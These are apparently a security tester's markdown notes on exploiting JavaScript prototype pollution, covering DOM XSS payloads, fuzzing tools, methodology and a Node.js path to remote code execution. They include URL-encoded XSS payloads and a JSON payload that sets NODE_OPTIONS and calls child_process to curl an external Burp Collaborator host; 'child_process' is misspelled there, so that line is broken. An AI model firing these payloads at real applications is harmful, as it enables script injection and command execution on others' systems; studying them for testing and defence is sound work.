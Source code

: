 # Prototype pollution

Prototype Pollution lead to DOM XSS

```
- proto-1
    - Data Flow -> Source -> Sink
        - Data -> u -> for -> person{}: copy
        - Source -> Sink (innerHTML))
- proto-2
    - setter function -> snippet -> Location of pollution
    - untrusted types: https://github.com/filedescriptor/untrusted-types
```

### payloads

```
__proto__[email]=<img/src%3dx onerror%3Dalert(1)>
constructor[prototype][email]=<img/src%3dx onerror%3Dalert(1)>
```

when create payload we should replace "=" with "%3d" , other wise payload not work!

### find all Dom xss ( source , sink )

```
https://domgo.at/cxss/intro
```

### showing sink in Dom

```
https://github.com/filedescriptor/untrusted-types
```

### Methodology

```
- Context/Inputs
    - Inputs: URLs -> hakrawler + logger++ 
- use fuzzer
- use debugger
```

### Fuzzer

```
    - https://github.com/kleiton0x00/ppmap
    - https://github.com/msrkp/PPScan
```

### Prototype Pollution to RCE

```
- Client-Side -> Browser -> Object Prototype
- NodeJS (Runtime Environment) -> env 
    - Context/Inputs ->  Forms, Links, ... 
    - Fuzzer -> Burp Intruder + Nuclei + Custom Script 
    - {"constructor":{"prototype": {"env": {"polluted": "require('child_porcess').exec('curl 4ty7vc7z5ybq27zso682wt7jaag04p.burpcollaborator.net')//"}, "NODE_OPTIONS": "--require /proc/self/environ"}}}
```

### Prevention

```
https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/
```

#### good tools for search not for hash dom xss

```
https://github.com/kleiton0x00/ppmap
```
